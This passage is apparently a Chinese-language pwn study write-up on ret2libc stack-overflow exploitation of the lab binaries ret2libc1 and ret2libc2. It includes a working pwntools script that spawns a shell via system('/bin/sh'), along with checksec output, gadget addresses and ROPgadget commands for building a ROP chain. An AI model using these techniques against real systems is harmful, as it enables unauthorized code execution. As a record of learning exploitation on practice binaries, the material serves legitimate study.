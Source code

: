 ```python
from pwn import *

p = process('./ret2libc1')

sys_addr = 0x08048460
binsh_addr = 0x08048720

payload = flat(['a'*0x70,sys_addr,'a'*4,binsh_addr])
p.sendline(payload)
p.interactive()
```

#### 例2

```bash
[*] '/mnt/f/github/pwn-study/Linux-pwn/ret2libc2'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

能查到存在 `system` 函数

```c
.plt:08048490 ; int system(const char *command)
```

然而由于不存在 `/bin/sh` ，我们需要自己构造这样一个字符串。这样的话，我们需要两个 gadgets。

```c
.plt:08048460 ; char *gets(char *s)
```

另外，查看wp之后发现 bss 段中还有一个 `buf2` 字符串，我们可以将输入的 `/bin/sh` 存放到这里。

buf2 的地址：

```
.bss:0804A080 ; char buf2[100]
```

我们需要自行构造栈帧，第一次跳到gets函数的位置，第二次跳到system的位置。中间需要平衡栈帧，因此我们用 ` ROPgadgets` 选一个 `pop ebx` 。

执行：

```bash
ROPgadget --binary ret2libc2 --only 'pop|ret' | grep 'ebx'
```

返回：

```
0x0804872c : pop ebx ; pop esi ; pop edi ; pop ebp ; ret
0x0804843d : pop ebx ; ret
```

我们选择第二个作为调栈的参数（一会可以试试`pop esi`）。在这些之前，不要忘了看一下要填充的空间大小。我计算得到的是0x70。IDA还是不如实际调试的准啊XD
